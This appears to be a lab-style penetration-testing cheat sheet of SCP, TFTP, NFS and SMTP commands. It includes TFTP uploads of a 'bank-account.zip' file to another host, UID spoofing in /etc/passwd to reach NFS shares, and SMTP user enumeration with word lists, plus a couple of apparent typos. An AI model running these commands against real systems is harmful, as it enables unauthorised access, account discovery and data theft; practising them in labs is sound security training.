     - SCP(22) client commands
        > transfer to > scp file.txt username@10.10.10.10:/tmp
        > transfer from > scp username@10.10.10.10:/tmp/file .
    - TFTP(69) client commands
        - Windows:
            > tftp -i 192.168.119.135 put bank-account.zip
        - Linux:
            > tftp 192.168.119.135 put bank-account.zip
    - NFS(111, redirect 2049):
        - Configuration file
            - /etc/exports
        - List mount points
            > showmount -e 10.10.10.76
        - Check version of rpc running
            > rpcinfo -p 192.168.1.193
                - Check if mountd is running
        - List users on system (like Finger) 
            > rusers -al 10.10.10.76
        - Mount on specific port
            > mount > sudo mount -o port=34505 -t nfs 10.10.10.76:/some_directory /mnt/test
        - other commands
            > mount > sudo mount -t fts 10.10.10.76:/home ~/nfs-share
            > mount > sudo mount -t nfs -o nfsvers=3 10.11.1.72:/home ~/nfs-share
        - create user with UID to access mount
            > adduser pwn
            > sudo sed -i -e 's/1001/1014/g' /etc/passwd
        > umount > sudo umount -f -l ~/nfs-share
    - SMTP(25):
        - connect
            > telnet 10.11.1.217 25
            > nc 10.11.1.217 25
                > HELO
                > HELO aaa
                - Verify users
                    > VRFY <user>
                - Verify with recipt
                    > MAIL FROM: <valid email address>
                    > RCPT TO: <email address to test>
                - Send an email
                    > MAIL FROM: <valid email address>
                    > RCPT TO: <email address to test>
                    > DATA
                        - Type whatever you want, end with a newline starting wtih "." to end and send at the same time
                    

        > SMTP-VRFY root 10.11.1.217 25
        - Windows server ntlm check
            > nmap -p 25 --script smtp-ntlm-info --script-args smtp-ntlm-info.domain=htb.local 10.10.10.51 -d
        - smtp-user-enum
            - VRFY (check for users)
                > smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t 11.10.10.51 | tee _smtp_vrfy_enum
                > smtp-user-enum -M EXPN -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.51 | tee _smtp_expn_enum
                > smtp-user-enum -M RCPT -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.51 | tee _smtp_rcpt_enum
            - Check for users email address
                > smtp-user-enum -M VRFY -D mail.ignite.lab -u raj -t 192.168.1.107
        - nmap
            > nmap --script smtp-enum-users.nse --script-args smtp-enum-users.methods={EXPN,VRFY,RCPT} -p 25 10.10.10.51
        - ismtp
            > ismtp -h 192.168.1.107:25 -e /usr/share/seclists/Usernames/Names/names.txt
        - swaks